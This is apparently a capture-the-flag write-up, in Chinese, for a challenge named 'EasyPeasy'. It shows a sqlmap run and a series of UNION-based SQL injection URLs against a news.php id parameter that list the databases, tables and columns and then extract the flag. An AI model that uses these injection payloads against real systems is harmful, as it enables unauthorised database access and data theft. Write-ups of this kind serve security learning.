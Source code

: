 ### EasyPeasy

題目給 http://140.110.112.32:4001

一連上去先用自動帶我們到 http://140.110.112.32:4001/news.php?id=1

先 `sqlmap -u http://140.110.112.32:4001/news.php?i --random-agent` 

找到playload `id=-4031 UNION ALL SELECT NULL,NULL,CONCAT(0x7171706a71,0x6872464461534467546173754f6d554f5a454178556d6f6f546578736a4
f4274506a4c596a76774e,0x717a707671)-- hZDH`

先撈DB

`http://140.110.112.32:4001/news.php?id=-4031 union select 1, database(), group_concat(schema_name) from information_schema.schemata -- -`

回傳 : information_schema,fl4g,mysql,news,test

撈TABLE

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',group_concat(TABLE_NAME)) from information_schema.tables where table_schema='fl4g' -- -`

回傳 : secret

撈COLUMN

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',group_concat(column_name)) from information_schema.columns where table_name='secret' -- -
`

回傳 : id,THIS_IS_FLAG_YO

撈value

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',THIS_IS_FLAG_YO) from fl4g.secret-- -`

FLAG就出來了
